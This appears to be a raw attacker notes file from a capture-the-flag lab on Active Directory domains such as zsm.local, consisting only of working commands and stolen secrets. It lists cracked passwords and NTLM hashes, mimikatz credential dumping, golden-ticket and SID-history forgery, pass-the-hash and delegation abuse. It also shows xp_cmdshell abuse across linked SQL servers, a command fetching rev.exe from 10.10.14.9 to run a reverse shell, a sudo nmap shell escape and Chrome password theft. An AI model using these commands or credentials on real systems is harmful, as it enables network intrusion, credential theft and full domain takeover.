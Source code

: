 
riley : P@ssw0rd
web_svc : !QAZ1qaz
blake : Password123!
daniel :
matt :
James : 8af1903d3c80d3552a84b6ba296db2ea
svrsvc$ : 6ee87fa6593a4798fe651f5f5a4e663e
$SecPassword = ConvertTo-SecureString '!QAZ2wsx' -AsPlainText -Force; $Cred = New-Object System.Management.Automation.PSCredential('zsm\marcus', $SecPassword)
svcbpa admin : 23ea5ff648e7ec7dcd1bfef8e9434099
.\mimikatz.exe "privilege::debug" "token::elevate" "sekurlsa::logonpasswords" "lsadump::lsa /inject" "lsadump::sam" "lsadump::cache""sekurlsa::ekeys" "exit"

painters dc admin : 5bdd6a33efe43f0dc7e3b2435579aa53 krbtgt b59ffc1f7fcd615577dab8436d3988fc
4103
4601

kerberos::golden /user:administrator /domain:painters.htb /sid:S-1-5-21-1470357062-2280927533-300823338 /krbtgt:4b6af2bf64714682eeef64f516a08949 /sids:S-1-5-21-2734290894-461713716-141835440-4601 /ptt

$UserPassword = ConvertTo-SecureString 'Password123!' -AsPlainText -Force;Set-DomainUserPassword -Identity "Jamie" -AccountPassword $UserPassword -domain zsm.local -credential $cred

```
TF=$(mktemp)
echo 'os.execute("/bin/sh")' > $TF
sudo /usr/bin/nmap --script=$TF
```

marcus : !QAZ2wsx

ZPH-SVRMGMT1$ : 44892d1f6cd79eb76b8aa172d0039b97

sekurlsa::pth /user:administrator /domain:bastion.local /ntlm:f29207796c9e6829aa1882b7cccfa36d /run:powershell.exe
sekurlsa::pth /user:'ZPH-SVRMGMT1$' /domain:zsm.local /ntlm:44892d1f6cd79eb76b8aa172d0039b97 /run:cmd.exe

Add-DomainGroupMember -Identity 'CN=CA Managers,CN=Builtin,DC=zsm,DC=local' -Members 'CN=Marcus Thompson,OU=Users,OU=Zephyr,OU=Sites,DC=zsm,DC=local' -domain zsm.local -credential $cred

sekurlsa::pth /user:"ZPH-SVRMGMT1$" /domain:zsm.local /ntlm:44892d1f6cd79eb76b8aa172d0039b97 /run:"powershell c:\rev.ps1" 

$SecPassword = ConvertTo-SecureString 'Password123!' -AsPlainText -Force; $Cred = New-Object System.Management.Automation.PSCredential('zsm\jamie', $SecPassword)

Administrator:500:aad3b435b51404eeaad3b435b51404ee:545c503123664e5713439e088bd91035::: mgmt1 admin hash

Get-DomainComputer $TargetComputer -credential $cred | Set-DomainObject -Set @{'msds-allowedtoactonbehalfofotheridentity'=$SDBytes} -credential $cred
administrator hash f027f0fcf9a7470a9276a6484eb336f9 ca machine

Get-SQLQuery -instance zph-svrsql01.zsm.local -username zabbix -p rDhHbBEfh35sMbkY -verbose -query "EXECUTE AS LOGIN = 'sa';EXEC sp_configure 'show advanced options', 1; RECONFIGURE; EXEC sp_configure 'xp_cmdshell', 1; RECONFIGURE;";
Get-SQLQuery -instance zph-svrsql01.zsm.local -username zabbix -p rDhHbBEfh35sMbkY -verbose -query "EXECUTE AS LOGIN = 'sa';EXEC xp_cmdshell 'powershell c:\windows\tasks\rev.ps1';"

Get-SQLQuery -instance zph-svrsql01.zsm.local -username zabbix -p rDhHbBEfh35sMbkY -verbose -query "EXECUTE AS LOGIN = 'sa';select * from openquery(""ZSM-SVRCSQL02.internal.zsm.local"", 'select @@version as version')"

'EXECUTE(''sp_configure ''''xp_cmdshell'''',1;reconfigure;'') AT "ZSM-SVRCSQL02"'

sql01 Administrator:500:aad3b435b51404eeaad3b435b51404ee:7ac325190bb999ef4ad73b0b67e8e33c:::

Get-SQLQuery -instance zph-svrsql01.zsm.local -verbose -Query 'EXEC (''sp_configure ''''show advanced options'''', 1; reconfigure;'') AT ZSM-SVRCSQL02.internal.zsm.local'
Get-SQLQuery -instance zph-svrsql01.zsm.local -username zabbix -p rDhHbBEfh35sMbkY -verbose -query "EXECUTE AS LOGIN = 'sa';EXEC master..sp_addsrvrolemember @loginame = N'zabbix', @rolename = N'sysadmin'"

  
Get-SQLServerLinkCrawl -instance zph-svrsql01.zsm.local -username zabbix -p rDhHbBEfh35sMbkY -verbose -Query 'EXECUTE(''sp_configure ''''xp_cmdshell'''',1;reconfigure;'') AT "ZSM-SVRCSQL02.internal.zsm.local"'

Get-SQLServerLinkCrawl -instance zph-svrsql01 -username zabbix -p rDhHbBEfh35sMbkY -verbose -Query "exec master..xp_cmdshell 'whoami'"

Get-SQLServerLinkCrawl -instance zph-svrsql01.zsm.local -username zabbix -p rDhHbBEfh35sMbkY -verbose -query "EXEC sp_configure 'show advanced options', 1; RECONFIGURE; EXEC sp_configure 'xp_cmdshell', 1; RECONFIGURE;";

Get-SQLServerLinkCrawl -instance localhost -username zabbix -p rDhHbBEfh35sMbkY -verbose -query "EXEC sp_configure 'show advanced options', 1; RECONFIGURE; EXEC sp_configure 'xp_cmdshell', 1; RECONFIGURE;";

Get-SQLServerLinkCrawl -Instance ZPH-SVRSQL01.zsm.local -Query "EXEC master..xp_cmdshell 'whoami'" -username zabbix -password rDhHbBEfh35sMbkY -Verbose

Get-SQLQuery -instance ZPH-SVRSQL01.zsm.local -username zabbix -p rDhHbBEfh35sMbkY -verbose -Query "select * from openquery(""ZSM-SVRCSQL02.internal.zsm.local"", 'EXEC master..xp_cmdshell whoami)"

Get-SQLQuery -Instance ZPH-SVRSQL01.zsm.local -username zabbix -p rDhHbBEfh35sMbkY -verbose -Query 'SELECT * FROM OPENQUERY("ZSM-SVRCSQL02.internal.zsm.local", ''SELECT * FROM sys.configurations WHERE name = ''''xp_cmdshell'''''');'

EXEC master..sp_addsrvrolemember @loginame = N'zabbix', @rolename = N'sysadmin'

Get-SQLquery -instance ZSM-SVRCSQL02.internal.zsm.local -username zabbix -p rDhHbBEfh35sMbkY -verbose -query "EXEC sp_configure 'show advanced options', 1; RECONFIGURE; EXEC sp_configure 'xp_cmdshell', 1; RECONFIGURE;";

Get-SQLQuery -instance ZPH-SVRSQL01.zsm.local -username zabbix -p rDhHbBEfh35sMbkY -query "select * from openquery(""ZSM-SVRCSQL02.internal.zsm.local"", 'select * from information_schema.tables')"

```sql
Get-SQLQuery -Instance ZPH-SVRSQL01.zsm.local -Query "EXECUTE AS LOGIN = 'sa'; EXECUTE('EXEC sp_configure ''show advanced options'', 1') at [ZSM-SVRCSQL02];" -username zabbix -password rDhHbBEfh35sMbkY -Verbose
Get-SQLQuery -Instance ZPH-SVRSQL01.zsm.local -Query "EXECUTE AS LOGIN = 'sa'; EXECUTE('RECONFIGURE') at [ZSM-SVRCSQL02];" -username zabbix -password rDhHbBEfh35sMbkY -Verbose
Get-SQLQuery -Instance ZPH-SVRSQL01.zsm.local -Query "EXECUTE AS LOGIN = 'sa'; EXECUTE('EXEC sp_configure ''xp_cmdshell'', 1') at [ZSM-SVRCSQL02];" -username zabbix -password rDhHbBEfh35sMbkY -Verbose
Get-SQLQuery -Instance ZPH-SVRSQL01.zsm.local -Query "EXECUTE AS LOGIN = 'sa'; EXECUTE('RECONFIGURE') at [ZSM-SVRCSQL02];" -username zabbix -password rDhHbBEfh35sMbkY -Verbose
Get-SQLQuery -Instance ZPH-SVRSQL01.zsm.local -Query "EXECUTE AS LOGIN = 'sa'; EXECUTE('EXEC master..xp_cmdshell ''whoami''') at [ZSM-SVRCSQL02];" -username zabbix -password rDhHbBEfh35sMbkY -Verbose
```
sql02 Administrator:500:aad3b435b51404eeaad3b435b51404ee:5dc71607c06cf83eea0f3d789bce419c::: 172.168.210.19
mssql_svc/aron 8cb21ab7f3ee6d782c724216bd88d1d1
6522c8bfd8716727907dacfd0402049b ZSM-SVRCSQL02$

1..1024 | % {echo ((new-object Net.Sockets.TcpClient).Connect("192.168.210.17",$_)) "Port $_ is open!"} 2>$null

Get-SQLQuery -Instance ZPH-SVRSQL01.zsm.local -Query "EXECUTE AS LOGIN = 'sa'; EXECUTE('EXEC master..xp_cmdshell ''c:\windows\tasks\rev.exe''') at [ZSM-SVRCSQL02];" -username zabbix -password rDhHbBEfh35sMbkY -Verbose

Administrator:500:aad3b435b51404eeaad3b435b51404ee:724cf89458d481e0975359f3e4cf570c::: hr ZPH-SVRCHR

dpapi::chrome /in:"C:\Users\marcus\AppData\Local\Google\Chrome\User Data\Default\Login Data"

melissa : WinterIsHere2022!
Administrator:500:aad3b435b51404eeaad3b435b51404ee:5b237ae04d61a2a1644c3bcc2d4be276::: sup
$SecPassword = ConvertTo-SecureString 'WinterIsHere2022!' -AsPlainText -Force; $Cred = New-Object System.Management.Automation.PSCredential('internal\melissa', $SecPassword)

dc internal Administrator:500:aad3b435b51404eeaad3b435b51404ee:543beb20a2a579c7714ced68a1760d5e:::

mimikatz.exe "kerberos::golden /user:administrator /domain:internal.zsm.local /sid:S-1-5-21-3056178012-3972705859-491075245 /krbtgt:0540fe51ddd618f42a66ef059ac36441 /sids:S-1-5-21-2734290894-461713716-141835440-519 /ptt" "exit"

dir \\ZPH-SVRDC01.ZSM.LOCAL\c$

```
Kerberos::golden /user:Administrator /domain:internal.zsm.local /sid:S-1-5-21-3056178012-3972705859-491075245 /domain:internal.zsm.local /sid:S-1-5-21-3056178012-3972705859-491075245 /rc4:502af4d8b4e0ad1f0f21e6f31e5b6f59 /service:krbtgt /target:zsm.local /ticket:c:\test.kirbi
rubeus.exe asktgs /ticket:c:\ticket.kirbi /service:HTTP/ZPH-SVRDC01.zsm.local /dc:ZPH-SVRDC01.ZSM.LOCAL /ptt
```

mimikatz.exe "Kerberos::golden /user:Administrator /domain:INTERNAL.ZSM.LOCAL /sid:S-1-5-21-3056178012-3972705859-491075245 /sids:S-1-5-21-2734290894-461713716-141835440-519 /rc4:502af4d8b4e0ad1f0f21e6f31e5b6f59 /service:krbtgt /target:ZSM.LOCAL" "exit"

zsm dc admin 84210eddc5724a7801fe78289ee94d44

Get-SQLQuery -Instance ZPH-SVRSQL01.zsm.local -Query "EXECUTE AS LOGIN = 'sa'; EXECUTE('EXEC master..xp_cmdshell ''powershell curl 10.10.14.9/rev.exe -o c:\windows\tasks\rev.exe''') at [ZSM-SVRCSQL02];" -username zabbix -password rDhHbBEfh35sMbkY -Verbose
